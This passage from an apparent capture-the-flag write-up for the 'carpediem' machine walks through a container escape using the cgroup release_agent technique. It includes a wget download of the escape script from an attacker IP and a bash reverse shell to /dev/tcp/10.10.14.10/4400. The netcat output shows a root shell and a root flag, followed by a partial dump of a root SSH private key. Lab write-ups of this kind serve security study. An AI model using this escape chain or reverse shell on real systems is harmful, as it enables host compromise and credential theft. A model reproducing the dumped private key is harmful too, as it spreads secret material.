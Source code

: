 With some trial-and-error I got the escape working, for me the issue was my payload - so make sure to test it before incorporating it to a exploit. 
```bash
# unshare -UrmC bash
wget http://10.10.14.10/esc.sh
chmod +x esc.sh


cat esc.sh
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

echo '#!/bin/sh' > /cmd
echo "/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.10/4400 0>&1'" >> /cmd
chmod a+x /cmd

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
head /output


bash esc.sh
```

```bash
➜  carpediem nc -lvnp 4400            
listening on [any] 4400 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.167] 56780
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@carpediem:/# id && hostname
uid=0(root) gid=0(root) groups=0(root)
carpediem

root@carpediem:/# cat /root/root.txt
c57deb2eb7b17c84a0e40dc099b0bb70

root@carpediem:/# cat /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAn4XMDVkBUi5Cch7+bhxOLQzqofUIElWw6wNQ2MNZIi3QTUYE0cSn
rCrrVSGKt1BRWrXlNjanoGJGvfENm02L+Dm9dUPbFaJjcFBG80DjrWsVfkCYSwe3g9KjCk
kqXrHXtapCgERNCga82snoEgYN3z9vmsrw/nd2D6OVsQxkIck7bzC2+p2EinjhaY9BVtO0
UVkcDrMBvRq64JOkHHktYEBF95SDRHav1JW6M/wY6lan18Zfrc2x0c+Ktavpp6KwHVXOcJ
veuChxMfbWOgyaubMV57iZ828vloyoUZRy4OlZr0Jxe5FQGcxWT2/nhWKU3uo4Vi/mSWha
hNMY8s+ip7y9lJZZ4/ZnN0nkkriO5xWwJu4+FEwDM9a2ZVbpfRAqcCNVQR5atHaGLl3pM6
LDpyN9i95ks03BOo/9U6SULuWK/IfQjzlCLP28EJBb6W5cMBvB+yZSAGJ15fKYv2+9c4dj
JLefRpTq65BzjwUIxseflmyTL08WYGzSB9amCsHzAAAFiCMHoVMjB6FTAAAAB3NzaC1yc2
EAAAGBAJ+FzA1ZAVIuQnIe/m4cTi0M6qH1CBJVsOsDUNjDWSIt0E1GBNHEp6wq61UhirdQ
UVq15TY2p6BiRr3xDZtNi/g5vXVD2xWiY3BQRvNA461rFX5AmEsHt4PSowpJKl6x17WqQo
BETQoGvNrJ6BIGDd8/b5rK8P53dg+jlbEMZCHJO28wtvqdhIp44WmPQVbTtFFZHA6zAb0a
uuCTpBx5LWBARfeUg0R2r9SVujP8GOpWp9fGX63NsdHPirWr6aeisB1VznCb3rgocTH21j
oMmrmzFee4mfNvL5aMqFGUcuDpWa9CcXuRUBnMVk9v54VilN7qOFYv5kloWoTTGPLPoqe8
vZSWWeP2ZzdJ5JK4jucVsCbuPhRMAzPWtmVW6X0QKnAjVUEeWrR2hi5d6TOiw6cjfYveZL
NNwTqP/VOklC7livyH0I85Qiz9vBCQW+luXDAbwfsmUgBideXymL9vvXOHYyS3n0aU6uuQ
c48FCMbHn5Zsky9PFmBs0gfWpgrB8wAAAAMBAAEAAAGAMg6VIlccoAIeHZt2MW02ZtKXye
yO9Nno40YuF2btUFlZ9PWUy5JPHyp0oEkfMzjD3pgXbfSmkyBjnHTI1UP3ORQ9TE/Xrqk/
VN4L9YcWKrPgkbaJU3n/byEowjCFWCOsUbg0l/VWy1+j4W/cH9PAhJ5uUf9+sgsgg/XMIj
uGLEfuG40IzgmhrqYR7cLjOPDDs4cn08D+Oa3qmFAb/kdUItDoY7E5o8EumaHGRUvFMbux
fXclTO+v7euXVjy03EKjTCL9poucY51N9XXPzqWnMq+2e2ajQwbURSsWJ8TpvHy/0eDfUJ
kyOMSNAtouZczSsipukJehuoMgn169HoIHNov1mx6n5clSBhmkAAcyXqqIoW/Qh/7HYWa+
k0t/CKrG166DJ+DGPZbWQhWAepEKkD2QXDFJB2nY0j46InBRaKSyyqId5CKRmjQy8WuqtM
NuCn623pVXUWrsEvWeVp881h1f2t8ZBHl09mFBNTBCfnwu5Y68HQhn3biU8Zmajk5xAAAA
wByZ9i3MAdkAeBO59jhWcB7G14KXvlo2jyr0ZStsMH/on63EZJo6t2uLnzq7WFkY3fqf6v
```